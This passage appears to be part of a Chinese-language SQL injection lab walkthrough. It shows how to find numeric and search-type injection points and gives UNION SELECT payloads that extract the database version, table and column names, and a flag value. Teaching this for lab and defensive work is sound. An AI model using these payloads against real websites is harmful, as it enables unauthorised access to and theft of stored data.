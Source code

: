 #### 确定注入点
但是在看不到的情况下，我们怎么判断
当传入参数`?id=1`时，页面会显示第一条数据
那么我传入`?id=2-1`时，页面如果也回显了第一条数据，那么说明参数被当作SQL语句执行了。
```sql
SELECT * FROM users WHERE id = 2-1
SELECT * FROM users WHERE id = 1
```
我们就能凭借它来确定这个数字型的注入点了。
这边还有一个细节，`?id=1+1`可以吗？
答案是不行，因为`+号`经过浏览器传输后会被转换成空格，也就是说当你传输的参数是`?id=1+1`
那么最后执行的语句是`SELECT * FROM users WHERE id=1 1 LIMIT 0,1`
好的，数据库必定会报错。

#### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1 ORDER BY 3 %23  # 页面正常，显示第一条数据
?id=1 ORDER BY 4 %23  # 页面报错，确定列数为3列

联合查询注入
?id=0 UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据

查询当前数据库版本和数据库名
?id=0 UNION SELECT 1,version(),database() %23    # 页面回显数据

查询当前数据库下的所有表名
?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli10086' %23

查询该表中所有的列名
?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='what_flag' %23

查询实际数据
?id=0 UNION SELECT 1,2,group_concat(flag_what) FROM what_flag %23

```


<br>
### search
由于白盒测试，能看见执行的SQL语句。根据sql语句，我们直接能判断是搜索型的注入。

#### 确定注入点
但是在看不到的情况下，我们怎么判断
当传入参数`?id=a' or 1=1 %23`时。页面只显示一条数据，说明我们传入的参数成功被当作SQL语句被执行了。
我们来分析一下SQL会怎么执行。
`SELECT * FROM users WHERE id LIKE '%a' or 1=1 #%' LIMIT 0,1`
最后的LIMIT被注释了直接忽略，直接看WHERE。首先会先执行 `id LIKE '%a'` %号是通配符，这句话的含义是 匹配id字段以a结尾的数据。%号可以理解为任意字符
因为id是主键，并且为数字，所以不可能匹配上。那么会变成WHERE后面的条件会变成
`false or 1=1`，那么最终肯定会返回true。
也就是语句变成`SELECT * FROM users`，会返回users表中的所有数据。
![10](10.png)
那么这边为什么会只显示一条？
这就跟里面内部的代码有关了。很多情况下，页面中最终的效果和后端代码以及SQL语句都相关。这边就不深究。当你试过PHP，自然会很理解。
